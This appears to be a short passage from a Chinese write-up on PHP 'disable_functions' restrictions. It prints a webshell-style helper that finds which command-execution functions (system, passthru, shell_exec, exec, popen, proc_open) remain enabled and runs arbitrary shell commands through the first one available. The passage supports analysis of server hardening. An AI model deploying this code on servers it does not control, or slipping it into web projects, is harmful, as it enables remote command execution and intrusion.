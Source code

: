 ![3](/medias/disable_func/3.png)

格式化一下，分析

```php
function fe($f) {
    $d = explode(",", @ini_get("disable_functions"));
    if (empty($d)) { $d = array(); }
    else { $d = array_map('trim', array_map('strtolower', $d)); }
    return (function_exists($f) && is_callable($f) && !in_array($f, $d));
}

function runcmd($c) {
    $ret = 0;
    $d = dirname($_SERVER["SCRIPT_FILENAME"]);

    if (fe('system')) { @system($c, $ret); }
    elseif (fe('passthru')) { @passthru($c, $ret); }
    elseif (fe('shell_exec')) { print(@shell_exec($c)); }
    elseif (fe('exec')) { @exec($c, $o, $ret); print(join("\n", $o)); }
    elseif (fe('popen')) { $fp = @popen($c, 'r'); while (!@feof($fp)) { print(@fgets($fp, 2048)); } @pclose($fp); }
    elseif (fe('proc_open')) {
        $p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);
        while (!@feof($io[1])) { print(@fgets($io[1], 2048)); }
        while (!@feof($io[2])) { print(@fgets($io[2], 2048)); }
        @fclose($io[1]); @fclose($io[2]); @proc_close($p);
    }
    return $ret;
}
```